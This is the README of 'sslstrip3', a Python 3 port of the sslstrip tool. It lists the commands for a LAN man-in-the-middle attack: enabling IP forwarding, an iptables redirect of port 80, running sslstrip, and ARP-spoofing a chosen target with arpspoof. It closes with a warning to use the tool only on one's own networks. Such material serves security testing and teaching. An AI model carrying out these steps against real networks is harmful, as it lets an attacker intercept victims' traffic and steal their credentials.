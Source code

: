 # sslstrip3
implementation of moxie marlinspikes sslstrip im python3

Running:
	sslstrip can be run from the source base without installation.  
	Just run 'python sslstrip.py -h' as a non-root user to get the
	command-line options.

	The four steps to getting this working (assuming you're running Linux)
	are:

	1) Flip your machine into forwarding mode (as root):
	   echo "1" > /proc/sys/net/ipv4/ip_forward

	2) Setup iptables to intercept HTTP requests (as root):
	   iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <yourListenPort>

	3) Run sslstrip with the command-line options you'd like (see above).

	4) Run arpspoof to redirect traffic to your machine (as root):
	   arpspoof -i <yourNetworkdDevice> -t <yourTarget> <theRoutersIpAddress>


more info on moxies github


# info
dont forget to remove the iptables config afterwards
# warning
ssl stripping is prohibited, only try this on your own machines and networks.
